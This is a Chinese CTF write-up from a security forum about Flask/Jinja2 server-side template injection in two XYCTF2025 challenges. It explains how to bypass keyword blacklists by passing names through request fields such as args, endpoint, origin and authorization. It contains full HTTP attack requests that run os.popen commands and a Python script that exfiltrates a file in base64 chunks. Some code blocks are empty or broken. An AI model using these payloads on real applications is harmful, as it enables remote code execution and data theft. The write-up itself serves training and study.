# ssti之Request浅析利用-先知社区

> **来源**: https://xz.aliyun.com/news/17697  
> **文章ID**: 17697

---

# ssti之Request

在XYCTF2025中的web方向两道ssti题目中发现禁用了一堆关键字，咋一看很吓人，但是其实request没有禁用

```
lock_within = [
    "debug", "form",  "values",
    "headers", "json", "stream", "environ",
    "files", "method", "cookies", "application",
    'data', 'url' ,'\'', '"',
    "getattr", "_", "{{", "}}",
    "[", "]", "\", "/","self",
    "lipsum", "cycler", "joiner", "namespace",
    "init", "dir", "join", "decode",
    "batch", "first", "last" ,
    " ","dict","list","g.",
    "os", "subprocess",
    "g|a", "GLOBALS", "lower", "upper",
    "BUILTINS", "select", "WHOAMI", "path",
    "os", "popen", "cat", "nl", "app", "setattr", "translate",
    "sort", "base64", "encode", "\u", "pop", "referer",
    "The closer you see, the lesser you find."]
```

那么到底怎么去利用这个request进行ssti利用呢？于是便有了下文

# 环境



我们新建一个路由，ctrl+鼠标左键点击args或者点击request

然后我们就能进入到Request的类里面，可以查看到里面的方法



实际上就是这两个文件

可以参考官方文档

```
https://flask.palletsprojects.com/en/latest/api/#flask.Request
https://werkzeug.palletsprojects.com/en/latest/
```

也可以直接利用脚本列举出来

```
from flask import Flask, request

app = Flask(__name__)

@app.route('/debug', methods=['GET', 'POST'])
def debug():
    # 打印所有方法名
    print("Request对象方法列表：")
    for method in dir(request):
        if not method.startswith("__"):  # 过滤魔术方法
            print(f"- {method}")
    return "Check console for method list."

if __name__ == '__main__':
    app.run(debug=True)
```

然后就能看到了包含上述的

那么，我们现在探讨的是能能从请求头里面传值的方法

利用这个，{{(request.args)}}，就是利用了get方法里面的参数进行传值，从而绕开了特定的waf

因为有些方法或者说是属性含有下划线的即特殊字符，那么我们分为两类

## 含特殊字符

因为这个含有下划线，但是`__class__`这些类就会含有下划线，导致大多数的时候不能使用，这里我就只挑几个来测试



其实就是找方法的对应请求头



## 不含特殊字符

同样我也是只挑几个特别的来讲

### endpoint



主要是获取该路由的函数名



### args & values

第一个是用在get传参，第二个是用于POST和GET传参

这两个方法的优势在于可以传递多个参数



```
/H3dden_route?My_ins1de_w0r1d=Follow-your-heart-%23}{%23&x1=a
```

如果用成values

看到下面的方法，都是去遍历sources，他会把get的参数优先返回出去。







### cookies

这个方法的优势在于可以传递多个参数



### json



### authorization



那么个人测试了一些比较好用的是

```
application、args、authorization、cookies、endpoint、environ、json、mimetype、origin、pragma、range、referrer、values
```

# 回顾赛题

## XYCTF-Now you see me 1

waf是

```
lock_within = [
    "debug", "form",  "values",
    "headers", "json", "stream", "environ",
    "files", "method", "cookies", "application",
    'data', 'url' ,'\'', '"',
    "getattr", "_", "{{", "}}",
    "[", "]", "\", "/","self",
    "lipsum", "cycler", "joiner", "namespace",
    "init", "dir", "join", "decode",
    "batch", "first", "last" ,
    " ","dict","list","g.",
    "os", "subprocess",
    "g|a", "GLOBALS", "lower", "upper",
    "BUILTINS", "select", "WHOAMI", "path",
    "os", "popen", "cat", "nl", "app", "setattr", "translate",
    "sort", "base64", "encode", "\u", "pop", "referer",
    "The closer you see, the lesser you find."]
```

注意看，这个waf跟环境题目不一样的，但不影响我们做题

构造的链子是

```

```

我们就用orgin和authorization就行

最后的payload

```
GET /H3dden_route?My_ins1de_w0r1d=Follow-your-heart-%23} HTTP/1.1
Host: eci-2zealrk72forotuq9nau.cloudeci1.ichunqiu.com:8080
Content-Type: application/json
Origin: json
Authorization: __getitem__
Content-Length: 100

["__class__","__init__","__builtins__","__getitem__","eval","__import__('os').popen('ls /flag_h3r3').read()"]
```



如果你直接去读服务端的app.py就会发现有一个flag这个应该是非预期解

预期解的话就是怎么去下载这个音频文件



### 法一、



先新建static目录，然后直接mv就行



然后访问即可成功下载



然后拖入010就看到了

### 法二、

利用dd命令这来分块写入

```
import requests
import base64
def get_cmd(skip):
    return f"dd if=/flag_h3r3 bs=1 count=50000 skip={skip} 2>/dev/null | base64"
url = "http://eci-2ze9d3w0o6ffuc23smqv.cloudeci1.ichunqiu.com:8080"#加上exp
with open('flag', 'wb') as f:
    for skip in range(0, 20236270, 50000):
        cmd = get_cmd(skip)
        headers = {
            #加上请求头
        }
        #记得加上json的请求体，这里没有加
        res = requests.get(url, headers=headers)
        base64_data = res.text[18:].replace("
", "")
        decoded_data = base64.b64decode(base64_data)
        f.write(decoded_data)
        print(f"已写入 {skip + 50000} 字节")
        print("文件写入完成！")
```

最后同理，生成的flag直接拖进去010

```
flag{N0w_y0u_sEEEEEEEEEEEEEEE_m3!!!!!!}
```

## XYCTF-Now you see me 2

这里第二题发现过滤的比第一题还多

```
lock_within = [
    "debug", "form", "args", "values",
    "headers", "json", "stream", "environ",
    "files", "method", "cookies", "application",
    'data', 'url', '\'', '"',
    "getattr", "_", "{{", "}}",
    "[", "]", "\", "/", "self",
    "lipsum", "cycler", "joiner", "namespace",
    "init", "dir", "join", "decode",
    "batch", "first", "last",
    " ", "dict", "list", "g.",
    "os", "subprocess",
    "GLOBALS", "lower", "upper",
    "BUILTINS", "select", "WHOAMI", "path",
    "os", "popen", "cat", "nl", "app", "setattr", "translate",
    "sort", "base64", "encode", "\u", "pop", "referrer",
    "authorization", "user", "pragma", "mimetype", "origin"
    "Isn't that enough? Isn't that enough."]
```

因此我开始去考虑endpoint的用法

r3al\_ins1de\_th0ught

因为他给的函数名实在是太特殊了

```
{%set%09a=((request.endpoint.2)~(request.endpoint.0)~(request.endpoint.16)~(request.endpoint.7))%}
```

这里就把request.args这个类直接给构造出来了

然后就可以利用了

构造链子同上

```

```



```
GET /H3dden_route?spell=fly-%23}{%set%09a=((request.endpoint.2)~(request.endpoint.0)~(request.endpoint.16)~(request.endpoint.7))%}{%set%09x1=(request|attr(a))%}{%23&x2=__class__&x3=__init__&x4=__builtins__&x5=__getitem__&x6=eval&x7=__import__('os').popen('mv%20/flag_h3r3%20./static/1').read() HTTP/1.1
Host: gz.imxbt.cn:20287


```

同样是创建mkdir static文件夹，然后将flag移动到该目录下，访问即可下载


然后是道隐写题目

```
https://toolgg.com/image-decoder.html
```

在线网站直接解

# 总结

## 1、

对于取值的方法其实有很多，不仅仅有下标取值

还可以利用for循环+slice(1)的方法来搭配取值



## 2、

对于构造的链子不仅仅只有以config开头

还可以用request 、setattr 等去拿 eval 都是没问题的

## 3、

除了去构造特殊的链子，利用没被删除的方法找到命令执行的点

当然也可以利用沙箱逃逸的知识点，找到importlib的reload。分别reloados.popen和subprocess.Popen

然后继续打RCE
